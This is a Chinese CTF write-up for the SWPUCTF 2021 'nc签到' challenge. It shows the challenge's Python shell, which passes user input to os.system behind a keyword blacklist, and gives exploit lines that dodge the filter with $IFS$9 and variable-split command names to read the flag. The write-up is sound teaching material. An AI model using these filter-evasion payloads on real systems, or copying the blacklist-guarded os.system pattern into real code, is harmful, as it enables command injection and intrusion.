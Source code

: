 # SWPUCTF 2021 新生赛 nc签到


# 思路

根据题目给出的代码：

```python
import os

art = '''

   ((  "####@@!!$$    ))
       `#####@@!$$`  ))
    ((  '####@!!$:
   ((  ,####@!!$:   ))
       .###@!!$:
       `##@@!$:
        `#@!!$
  !@#    `#@!$:       @#$
   #$     `#@!$:       !@!
            '@!$:
        '`\   "!$: /`'
           '\  '!: /'
             "\ : /"
  -."-/\\\-."//.-"/:`\."-.JrS"."-=_\\
" -."-.\\"-."//.-".`-."_\\-.".-\".-//'''
print(art)
print("My_shell_ProVersion")

blacklist = ['cat','ls',' ','cd','echo','<','${IFS}']

while True:
    command = input()
    for i in blacklist:
        if i in command:
            exit(0)
    os.system(command)
```

看出来实际上是一道绕过WAF的RCE题目。需要绕过的名单是：``['cat','ls',' ','cd','echo','<','${IFS}']``

这里空格可以用`$IFS$9`代替，然后命令的话创建变量替换即可。

# exp

```bash
a=l;b=s;$a${b}$IFS$9\
a=c;b=at;$a${b}$IFS$9flag
```

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20230924103054265.png)


---

> 作者: alextang  
> URL: https://alextang.top/articles/2023/09/swpuctf-2021-%E6%96%B0%E7%94%9F%E8%B5%9B-nc%E7%AD%BE%E5%88%B0/  

